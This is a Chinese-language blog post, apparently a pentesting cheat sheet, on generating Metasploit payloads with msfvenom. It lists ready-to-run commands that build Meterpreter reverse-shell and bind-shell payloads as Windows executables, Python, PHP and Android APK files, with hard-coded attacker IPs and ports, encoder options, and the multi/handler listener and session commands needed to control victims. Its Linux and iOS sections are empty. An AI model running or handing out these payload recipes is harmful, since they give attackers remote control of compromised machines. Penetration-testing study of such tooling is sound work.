 ```yaml
---
layout: post
title:  "内网渗透之msfvenom"
categories: 内网渗透
tags: 工具 msfvenom
author: 0e0w
---
```


* content
{:toc}
这是一篇关于msfvenom文章。由于作者能力有限，文中难免会出现一些错误，请谅解。本文创建时间为2020年6月4日，最近一次更新时间为2020年8月21日。本文会不定期更新。
> 关于什么是msfvenom？更多详细内容见 [msfvenom官网](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)和[如何使用](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom)。

## 0x01 msfvenom概述

### 基础介绍

msfvenom一般需要配合msf进行利用。使用msfvenom生成shellcode，使用msf进行监听，在靶机上运行shellcode。msfvenom几乎支持生成各种平台的shellcode。是后渗透测试过程中强大的武器之一。

### 安装方式

msfvenom是msfpayload和msfencode的组合，安装msf之后便可使用。

一键安装msf

>curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \chmod 755 msfinstall && \./msfinstall

更新msf
>
sudo msfupdate
>

## 0x02 msfvenom命令

- msfvenom -h #查看帮助
- msfvenom -l payloads #查看支持生成的payload
- msfvenom -l archs #查看支持的系统架构
- msfvenom -l platforms #查看支持的平台
- msfvenom -l encrypt #查看所有的加密方式
- msfvenom -l encoders #查看所有的编码器

例：

> msfvenom -a 系统架构 --platform 系统平台 -p 有效载荷 lhost=攻击机IP lport=攻击机端口 -e 编码方式  -i编码次数 -f 输出格式 -o 输出文件

> msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp lhost=111.231.228.112 lport=6059 -i 3 -e x86/shikata_ga_nai -f exe -o x86reverse_tcp.exe
>

## 0x03 msfvenom利用

**MSF监听器**

- use exploit/multi/handler

- set payload windows/meterpreter/reverse_tcp #设置成payload的模式

- set rhost 111.111.111.112

- set lport 6095

- exploit -j

**sessions操作**

- sessions -i 2

- shell

### Windows exe

靶机无公网ip

- msfvenom -p windows/meterpreter/reverse_tcp lhost=111.111.111.112 lport=6095 -f exe -o x86reverse_tcp.exe
- msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=111.111.111.112 lport=6095 -f exe -o x64reverse_tcp.exe

靶机有公网ip

- msfvenom -p windows/x64/meterpreter/bind_tcp lport=6095 -f exe -o bind_tcp.exe

### Linux elf

- 

### Python

靶机无公网ip

- msfvenom -p windows/meterpreter/reverse_tcp lhost=111.111.111.112 lport=6095 -f py -o x86reverse_tcp.py

靶机有公网ip

- msfvenom ­-p windows/x64/meterpreter/bind_tcp lport=6095 ­-f py -o exp.py

### PHP

- msfvenom -p php/meterpreter/reverse_tcp LHOST=111.111.111.112 LPORT=6095 -f raw -o session.php

### Android

- msfvenom -p android/meterpreter/reverse_tcp LHOST=111.111.111.112 LPORT=80 -o msf.apk 

### apple_ios

- 

## 0x04 参考链接

- https://blog.csdn.net/caiqiiqi/article/details/84102629


